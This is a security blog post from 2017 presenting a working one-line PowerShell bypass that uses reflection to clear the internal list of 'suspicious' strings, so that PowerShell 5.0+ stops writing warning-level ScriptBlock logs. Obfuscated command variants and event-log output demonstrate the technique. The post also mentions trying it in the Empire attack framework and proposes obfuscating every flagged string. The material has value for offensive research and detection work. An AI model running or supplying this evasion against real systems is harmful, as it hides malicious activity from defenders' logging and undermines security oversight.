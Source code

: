 ```yaml
---
layout: post
title: "Bypass for PowerShell ScriptBlock Warning Logging of Suspicious Commands"
date: 2017-5-02 09:00:00 -0600
tags: PowerShell
---
```


## tl;dr

PowerShell 5.0+ automatically logs Warning level ScriptBlock EventLogs when executing "suspicious" commands commonly associated with malware, *even if ScriptBlock logging is not enabled*. This is a one-line bypass of that logging capability:

```
PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
```

## Details

This bypass may look familiar to you. It was inspired by Matt Graeber's tweetable, one-line AMSI bypass:

{% twitter https://twitter.com/mattifestation/status/735261176745988096 %}

I figured his method of using reflection to interact with the AmsiUtils class and alter nonpublic, static fields could probably be applied in other nefarious ways. I've been down in a rabbithole of PowerShell obfuscation and ScriptBlock logging lately, and just recently discovered that PowerShell 5.0+ automatically logs "suspicious" commands commonly associated with malware to ScriptBlock logs with a **warning level** (even if ScriptBlock logging is not enabled!). This is a great source of evidence for defenders, so naturally I wanted to try to break it!

Digging through the open-source PowerShell 6.0 GitHub page, what I found is that PowerShell defines a list of strings that are considered "suspicious" and does some string matching to see if a given ScriptBlock contains any of them.

![Suspicious Strings]({{site.baseurl}}/assets/images/suspicious-strings.png)

[Check out the code yourself!](https://github.com/PowerShell/PowerShell/blob/v6.0.0-alpha.18/src/System.Management.Automation/engine/runtime/CompiledScriptBlock.cs#L1612-L1660)

Let's see if we can find a similar field in PowerShell 5! Using reflection, let's get a list of the nonpublic, static fields defined in the ScriptBlock class:
```
PS> [ScriptBlock].GetFields('NonPublic,Static')


Name                    : signatures
MetadataToken           : 67114066
FieldHandle             : System.RuntimeFieldHandle
Attributes              : Private, Static
FieldType               : System.Collections.Generic.HashSet`1[System.String]
MemberType              : Field
ReflectedType           : System.Management.Automation.ScriptBlock
DeclaringType           : System.Management.Automation.ScriptBlock
Module                  : System.Management.Automation.dll
IsPublic                : False
IsPrivate               : True
IsFamily                : False
IsAssembly              : False
IsFamilyAndAssembly     : False
IsFamilyOrAssembly      : False
IsStatic                : True
IsInitOnly              : False
IsLiteral               : False
IsNotSerialized         : False
IsSpecialName           : False
IsPinvokeImpl           : False
IsSecurityCritical      : True
IsSecuritySafeCritical  : False
IsSecurityTransparent   : False
CustomAttributes        : {}

...
(output truncated for brevity, you will see other fields)
```

This appears to be the field we are after. You'll notice the `Attribute` property is `Private, Static`. What we learned from Matt's AMSI bypass is that we can alter these private *static* fields using reflection! First, let's test if we can just grab that `signatures` value and see what's inside:

```
PS> [ScriptBlock].GetField('signatures','NonPublic,Static').GetValue($null) | Select -First 10
Add-Type
DllImport
DefineDynamicAssembly
DefineDynamicModule
DefineType
DefineConstructor
CreateType
DefineLiteral
DefineEnum
DefineField
```

Great, we have confirmed that we are able to successfully grab the `signatures` field and we can see all the "suspicious" strings PowerShell is looking for. Now we just need to alter this value to a value we would prefer. How about an empty set?

```
PS> [ScriptBlock].GetField('signatures','NonPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
PS> [ScriptBlock].GetField('signatures','NonPublic,Static').GetValue($null)
PS> 
```

It worked! Just one small problem...

```
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 0
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

PS> [ScriptBlock].GetField('signatures','NonPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 1
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

```

**:(**

You may have noticed in that original list of signatures both `GetField` and `NonPublic` are flagged as suspicious. This is getting logged to a ScriptBlock warning level log **before** our bypass takes effect. If only I knew a tool that makes string matching PowerShell code difficult...

I actually ended up obfuscating this by hand, but I took obfuscation principles learned from [Invoke-Obfuscation](https;//github.com/danielbohannon/Invoke-Obfuscation) and put them to work on these two signatures to get the final result.

```
PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
```

And for completeness...

```
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 0
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

PS> "NonPublic"
NonPublic
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 1
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
PS> "NonPublic"
NonPublic
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 1
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :
```

And the final character count is 126 characters, so it is tweetable :)

## One Last Problem To Solve

So this all works great when using it at an interactive PowerShell prompt, the problem comes when trying to script it. My first thought was to throw this into Empire to test how effective it was. There are 2 main problems: One, if the one-liner bypass gets bundled with other code by PowerShell into a larger ScriptBlock, that code following the bypass could be found to be "suspicious" prior to the bypass taking effect. This is because the code is checked for suspicious strings prior to execution of the *entire* ScriptBlock *including the bypass*. Two, Empire uses `Start-Job` commands to execute modules. When `Start-Job` commands are run, a new PowerShell session is created and that session has a re-initialized `signatures` variable that will catch strings in the given module. A way to combat this would be to prepend all `Start-Job` commands with the bypass, but then again we run into problem #1 with code getting bundled with the bypass into a single ScriptBlock and still being scanned prior to execution of the bypass.

Given the flexibility of PowerShell in general, and my relatively little experience with the language, I'm sure there must be some solution to this problem. So this will serve as a **call for help to all you PowerShell wizards out there! :)**

## More Ideas

After using obfuscation to avoid Warning level logs for `GetField` and `NonPublic`, I realized this concept could probably be applied to *all* of the suspicious strings PowerShell is looking for. I think it would be fun to script this, and we could avoid Warning level logs even if this bypass is ever fixed (considering Matt's AMSI bypass still works a year later, this is doubtful to come soon) or no solution is found to the last problem I am facing in scripting the bypass. I will try to write to automate obfuscation for this, and post it when complete.

Also, it seems likely that using reflection to alter nonpublic fields has the potential for more abuse!